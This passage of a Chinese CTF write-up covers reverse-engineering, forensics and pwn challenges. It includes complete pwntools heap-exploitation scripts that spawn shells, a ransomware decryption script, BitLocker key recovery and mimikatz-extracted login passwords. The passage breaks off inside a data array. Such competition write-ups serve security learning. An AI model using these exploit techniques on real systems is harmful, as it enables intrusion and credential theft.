直接去访问文件，`./api/files/be5a14a8e504a66979f6938338b0662c`，得到flag

.png)

---

## Web总结

觉得这是发挥不错的一场比赛了，虽然题目很简单，但是还是学到了很多，尤其是安全检测，自己独立凭感觉解出来题目自信心也是upup。还有层层穿透，很有趣的内网渗透题目，很简单，但是给我敲开了这扇大门，感觉很有兴趣，以后可以多研究一下。

以下是本队的WP，虽然成绩不太行，但是尽力就好。

---

## Reverse

### 勒索解密

32位exe程序，要知道程序加密文件的流程，

看到了这个，Microsoft Enhanced RSA and AES Cryptographic Provider

猜测先把key+timestamp联系到了一起，然后sha256加密变成那个key，再拿去aes加密。





和时间戳连着 然后给key



来了一下0x800C这种加密，然后得到一个key，再拿这个key去aes加密文件



AES：660E



感觉那个rsa只是用来校验完整性

根据加密文件的时间戳，修正为UTC+0时间，可知中间的time应为0x611a1105

-0656204.png)

-0656192.png)

```plain
import base64
from Crypto.Cipher import AES
from Crypto import Random
import hashlib
import os
import base64

def encrypt(data, password):
    bs = AES.block_size
    pad = lambda s: s + (bs - len(s) % bs) * chr(bs - len(s) % bs)
    cipher = AES.new(password)
    data = cipher.encrypt(pad(data))
    return (data)
    
if __name__ == '__main__':
    key = bytearray.fromhex('b22fc60e4fd4544b05111a6121e7b18e')
    key = hashlib.sha256(key).hexdigest()
    key = bytes.fromhex(key)[:16]
    iv = b'\x00'*16
    cipher = AES.new(key, AES.MODE_CBC, iv )
    f = open('flag.bmp.ctf_crypter', 'rb')
    data = f.read()[:-0x80-4]
    de = cipher.decrypt(data)
    d = open('daidai.bmp','wb')
    d.write(de)
    d.close()
    f.close()
```

.png)


### Rev_Dizzy

由于数据太大超过文档限制，这里不便贴出，两个puts直接解决，签到题。直接逆序文件，加减号互换，跑一下出flag。

.png)

---

## Pwn

### note

通过scanf的格式化字符串漏洞修改TOPCHUNK的size并申请大于topchunk的堆块使其进入unsortedbin中，在申请回来时因为没有零截断所以可以直接打印出mainarena地址，进而获得libc基地址，通过计算偏移后可以构建system("/bin/sh")的ROP链并获取shell

exp：

```plain
from pwn import *
import time
context.log_level = 'debug'
context.arch = 'amd64'

def menu(index):
	p.sendlineafter('choice: ', str(index))

def add(size, content):
	menu(1)
	p.sendlineafter('size: ', str(size))
	p.sendlineafter('content: ', content)

def say(say1, say2):
	menu(2)
	p.sendlineafter('say ? ', say1)
	p.sendlineafter('? ', say2)

def debug():
	gdb.attach(p)

p = process('./pwn1')
# p = remote('47.104.70.90','25315')
libc = ELF('libc-2.23.so')
rbp_rip = '%17$s\x00'

# gdb.attach(p,'b *$rebase(0x1235)')
add(0x10,'lby')
p.recvuntil('addr: ')
heap_addr = int(p.recvline().replace('\n',''),16)
success('heap: '+hex(heap_addr))

pl1 = '%7$s'+'aaaa'+p64(heap_addr)
pl2 = 'a'*0x18+p64(0xfe1)
say(pl1, pl2)
for i in range(24):
	add(0x90,'a'*0x90)
add(0xd0,'a'*0xd0)
add(0x10, 'a'*8)
menu(3)
p.recvuntil('content:aaaaaaaa\n')
malloc_hook = u64(('\x00'+p.recv(5)).ljust(8,'\x00'))-224-0x10
libc_base = malloc_hook-libc.sym['__malloc_hook']
system = libc_base+libc.sym['system']
sh = libc_base + libc.search('/bin/sh\x00').next()
prdi_ret = libc_base+libc.search(asm("pop rdi\nret")).next()
success(hex(malloc_hook))

pl3 = p64(prdi_ret)+p64(sh)+p64(system)
say('%17$s','a'*8+pl3)
p.interactive()
```

-0656146.png)

### PassWordBox_FreeVersion

fgets处溢出一字节，构成off by null漏洞，输入的内容会被加密所以要进行逆向分析，确保我们在堆上的数据是正常的

-0656134.png)

观察show函数，不难发现其在show之前又执行了一次加密函数，并且创建堆块的时候会直接输出密钥加密后的内容，将其与我们输入的内容进行相异或即可得到随机值

-0656121.png)

解决了加密的问题，然后我们就可以利用前面提到的offbynull漏洞进行利用，构造堆重叠已经堆块复用的情况，通过让堆块进入unsortedbin以此来泄露libc基地址，最后再通过往free_hook中写入onegadget来获取shell

```plain
from pwn import *
import time

def add(id,size,content):
    p.sendlineafter("Input Your Choice:\n",str(1))
    p.sendafter("Save:",str(id))
    p.sendlineafter("Pwd:",str(size))
    p.sendafter("Pwd:",content)
def show(id):
    p.sendlineafter("Choice:\n",str(3))
    p.sendlineafter("Check:\n",str(id))
def delete(id):
    p.sendlineafter("Choice:\n",str(4))
    p.sendlineafter("Delete:\n",str(id))
def edit(id,data):
    p.sendlineafter("Choice:\n",str(2))
    p.sendline(str(id))
    p.sendline(str(data))

p=process('./pwdFree')
libc = ELF("libc.so.6")

add(0,0xf8,'\n')
p.recvuntil('D:')
key=u64(p.recv(8))
rand=key^0xa
add(1,0xf8,'\n')
add(2,0xf8,'\n')

for i in range(7):
    add(i+3,0xf0,'\n')  #3--9 full tc

for i in range(6):  #3-9 full tc
    delete(i+3)
delete(1)
delete(0)
num=0x200^rand
payload=b'c'*0xf0+p64(num)
add(0,0xf8,payload)
delete(9)
delete(2)
for i in range(8):
    add(1, 0xf8, '\n')
show(0)
p.recvuntil('Pwd is: ')
key=u64(p.recv(8))
l=key^rand
libcbase=l-0x3ebca0
add(9,0xf8,'\n')
delete(1)
delete(2)
delete(0)
free=libcbase+0x3ed8e8
edit(9,p64(free))
add(1,0xf8,'\n')
one=libcbase+0x4f432
system=libcbase+0x04f550
system=one^rand
payload=p64(system)
add(2,0xf8,payload+b'\n')
delete(1)
p.interactive()
```

### Lemon

主要问题是2.26版本下, 未控制好指针导致任意写

数据结构如下:

 lemon_name:

-0656096.png)

lemon_content:

-0656082.png)

主要可利用的函数是color:

-0656062.png)

这里的buf是指lemon_name结构, 所以可以控制指针lemon_addr的指向了, 因为只能用一次所以想控制整个tcache结构

其它一点可利用的函数:

开头的一次welcome:

-0656047.png)

虽然是有rand, 但无随机数种子, 所以是固定值, z3一把🔒!

eat函数: 可以打印chunkaddr第四字节, 用于配合后面分配堆块

整体思路: 利用color控制lemon_addr指向tcache的地址, 然后用一次释放一次可以做到一直控制tcache, 第一次使用可以设置tcache某些块数量达到7, 从而生成unsortedbin, 虽然无法直接打印, 但是使用particular write+爆破可以让chunk申请到_IO_2_1_stdout中, 然后泄露libc, 之后再以类似操作用environ打印出栈基址, 配合之前的泄露获取stack地址, 最后再用io即可打印出flag

难点:

多了个类似ptmalloc的检测在分配完成之后, 导致使用free_hook等充满难度:

-0656023.png)

exp:

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
from z3 import *

io=process('./lemon_pwn')
libc = ELF('./libc/libc-2.26.so')
context.log_level = 'debug'

def resolve():
    x=BitVec('x', 33)
    x=(x>>16)^x|((3*x-(x>>16))&0xffffffff)&(x/(x>>16))
    s=Solver()
    s.add(x^0x6b8b4567==0x13b6db38)
    print s.check()
    result=s.model()
    print result

def add(index,name,length,context='a'):
    io.sendlineafter('choice >>> ','1')
    io.sendlineafter('index of your lemon: \n',str(index))
    io.sendafter('name your lemon: \n',name)
    io.sendlineafter('length of message for you lemon: \n',str(length))
    if length <= 0x400:
        io.sendafter('message: \n',context)

def eat(index):
    io.sendlineafter('choice >>> ','2')
    io.sendlineafter('index of your lemon : \n',str(index))

def throw(index): 
    io.sendlineafter('choice >>> ','3')
    io.sendlineafter('index of your lemon : \n',str(index))

def color(index,context):
    io.sendlineafter('choice >>> ','4')
    io.sendlineafter('index of your lemon  : \n',str(index))
    io.sendafter('draw and color!\n',context)
   
    
def exp():
    io.sendlineafter('me?\n','yes')
    io.sendlineafter(' number: \n',p32(0x4a46bd98)+p8(1))
    io.recvuntil('first: \n')
    io.sendline('/bin/sh')
    
    
    add(1,'wwww\n',0x30)
    add(2,'a',0x90)
    add(3,'a',0x60)
    add(0,'wwww\n',0x20)
    #add(3,'a\n',944,'a\n')
    #add(3,'a\n',16,'a\n')

    eat(1)
    io.recvuntil('eat eat eat ')
    addr=int(io.recv(5))
    print(hex(addr))
    color(1,'b'*0x10+p32(0x40)+p32(1)+p16(addr-0x250))
    ''' control all tc'''
    throw(3)
    throw(1)
    add(1,'a',0x240,p64(0)+p8(7)+p8(0)*0x37)

    throw(2)
    throw(1)
    add(1,'a',0x240,p64(0)*13+p16(addr+0xd0))
    add(2,'a',0x60)
    throw(1)
    add(1,'a\n',0x240,p64(0)*13+p16(0x86ed))
    '''boom!'''
    add(2,'a\n',96,'a'*0x33+p64(0xfbad1887)+p64(0)*3+'\x88')
    #gdb.attach(io)
    stdin=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = stdin-libc.symbols['_IO_2_1_stdin_']
    stdout = libc_base+libc.symbols['_IO_2_1_stdout_']

    print(hex(libc_base))
    environ = libc_base+libc.symbols['_environ']
    throw(1)
    add(1,'a',0x240,p64(0)*13+p64(stdout-0x33))
    throw(0)
    #gdb.attach(io, '''b *$rebase(0x1106)''')
    add(2,'a',104,'a'*0x33+p64(0xfbad1887)+p64(0)*3+p64(environ)+p64(environ+8))
    stack=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x180
    print(hex(stack))
    add(0,'b',48,'a')
    throw(1)
    add(1,'a',0x240,p64(0)*13+p64(stdout-0x33))
    throw(0)
    add(2,'a',104,'a'*0x33+p64(0xfbad1887)+p64(0)*3+p64(stack-4)+p64(stack+0x28))
    #gdb.attach(io)

    io.interactive()
 
while 1:
   try:
    #io=process('./lemon_pwn')
    #io = remote('47.104.70.90',34524)
    exp()
   except:
    io.close()

```

---

## Misc

### 层层取证

volatility 内存取证，使用 bitlocker 插件可得如下内容。

```plain
Volatility Foundation Volatility Framework 2.6.1

Address : 0xfa800d12e7e0
Cipher  : AES-128
FVEK    : 0ff9192acdbf1df3c6dc36fb58cf76ce
TWEAK   : b423bd84872ff72b583bb9bdee1762ac
```

使用 bdemount 可解密 bitlocker 磁盘分区，然后使用 mount 挂载，可以得到一个2.pcapng。

```bash
$sudo bdemount -k 0ff9192acdbf1df3c6dc36fb58cf76ce:b423bd84872ff72b583bb9bdee1762ac ext.dd /mnt/mount1
```

-0655999.png)

使用 mimikatz 插件可以得到下列内容。

```plain
Volatility Foundation Volatility Framework 2.6.1
Module   User             Domain           Password
-------- ---------------- ---------------- ----------------------------------------
wdigest  XiaoMing         PC               xiaoming_handsome
wdigest  PC$              WORKGROUP
```

使用 FTK Imager 加载磁盘后在 XiaoMing 用户的桌面发现了 flag.txt 提示需要仿真。使用 VMware 加载 FTK Imager 挂载的物理磁盘新建虚拟机，使用 Oracle Virtual Box 启动虚拟机来仿真。



-0655971.png)

对流量包使用 WireShark 分析，UDP 流 32 处有压缩包。



将其提取出来后在注释中可发现提示，其解压密码与电脑登录密码一致。解压后得到 Word 文档，使用上述便签上的密码解密即可得到 flag。

-0655956.png)

### 考古

本题我们拿了一血，可惜<small>啧啧 发生了一些事情</small>

使用 volatility 对内存镜像进行分析，在用户的桌面可以发现一个可疑的 exe 文件，将其提取出来。使用如下脚本解出来 data。

```plain
#include<stdio.h>
#include<stdlib.h>

int main()
{
  FILE *v4; // [esp+10h] [ebp-14h]
  int k; // [esp+14h] [ebp-10h]
  signed int j; // [esp+18h] [ebp-Ch]
  int i; // [esp+1Ch] [ebp-8h]
  char *key = "this_a_key";
  unsigned char data[] =
{
  164, 167, 120, 147, 254, 208,  69, 138, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  97,  97,  92, 107, 155, 134, 
  125, 104, 111, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  94,  97,  95, 107, 110, 121, 
  116, 104, 105, 115,  95,  97,  95, 123, 101, 121, 
  122, 104, 105, 115,  94,  97,  95, 107, 155, 134, 
  139, 151, 105, 115,  95,  97,  83, 107, 101, 121, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151,  59, 115,  48,  97,  48, 107,  17, 121, 
   84, 104,  44, 115,  49,  97,  43, 107,  23, 121, 
   13, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  73, 107,  96, 121, 
  139, 151, 150, 140, 160, 158, 160, 148, 102, 121, 
  116, 104, 105, 122,  93,  97,  95, 107, 101, 121, 
  180, 104, 105, 115,  95,  97,  95,  45, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  132, 132,  14, 203, 176,  27, 136, 106,  96, 121, 
  116, 104, 233, 127,  95,  97,  95, 107, 101, 121, 
  117, 104,  42, 115,  48,  97,  50, 107,  21, 121, 
   59, 104,  11, 115,  53,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  77,  97,  93, 106, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
   26, 104, 105, 115,  95,  97,  95, 107,  50, 121, 
   27, 104,  27, 115,  59,  97,  27, 107,  10, 121, 
   23, 104,  28, 115,  50,  97,  58, 107,  11, 121, 
    0, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 115, 115,  93,  96, 160, 148, 154, 134, 
  112, 104, 105, 115, 160, 158, 160, 148, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  93,  97,  95, 107,  55, 115, 
  116, 104, 105, 115,  95,  97,  16, 107,   7, 121, 
   30, 104,  12, 115,  60,  97,  43, 107,  53, 121, 
   27, 104,   6, 115,  51,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
   98, 104, 104, 114,  94,  97,  95, 107, 103, 121, 
  116, 104, 150, 140, 160, 158,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97, 127, 171, 175, 213, 
  155,  18, 190, 114, 127, 161, 149, 199, 138,   3, 
  163, 105, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  93,  97,  95, 107, 152, 134, 
  139, 151, 151, 140, 160, 158, 161, 148, 154, 134, 
  115, 104, 105, 115,  89,  97,  95, 107,  97, 121, 
  116, 104,  97, 115,  95,  97,  86, 107, 101, 121, 
  126, 104, 105, 115, 161, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158,  90, 107,  54, 121, 
    1, 104,   4, 115,  50,  97,  62, 107,  23, 121, 
   13, 104,  32, 115,  49,  97,  57, 107,  10, 121, 
    6, 104,   4, 115,  62,  97,  43, 107,  12, 121, 
   27, 104,   7, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
   92, 104, 107, 115, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 121, 115,  95,  97,  25, 106, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 101, 121, 
  116, 104, 105, 115,  95,  97,  95, 107, 100, 121, 
  116, 104, 151, 140, 160, 158,  92, 107, 101, 121, 
  112, 104, 105, 115,  90,  97,  95, 107,  99, 121, 
  116, 104, 110, 115,  95,  97,  87, 107, 101, 121, 
  125, 104, 105, 115,  85,  97,  95, 107, 110, 121, 
  116, 104, 101, 115,  95,  97,  82, 107, 101, 121, 
  122, 104, 105, 115,  80,  97,  95, 107, 115, 121, 
  116, 104, 120, 115,  95,  97,  77, 107, 101, 121, 
  103, 104, 105, 115,  75,  97,  95, 107, 112, 121, 
  116, 104, 151, 140, 160, 158,  72, 107, 101, 121, 
  108, 104, 105, 115,  70,  97,  95, 107, 127, 121, 
  116, 104, 114, 115,  95,  97,  67, 107, 101, 121, 
  105, 104, 105, 115,  65,  97,  95, 107, 122, 121, 
  116, 104,  73, 115,  95,  97, 126, 107, 101, 121, 
   86, 104, 105, 115, 124,  97,  95, 107,  65, 121, 
  116, 104,  76, 115,  95,  97, 121, 107, 101, 121, 
   83, 104, 105, 115, 119,  97,  95, 107,  76, 121, 
  116, 104,  67, 115,  95,  97, 116, 107, 101, 121, 
   88, 104, 105, 115, 114,  97,  95, 107,  75, 121, 
  116, 104,  70, 115,  95,  97, 111, 107, 101, 121, 
   69, 104, 105, 115, 161, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
  139, 151, 150, 140, 160, 158, 160, 148, 154, 134, 
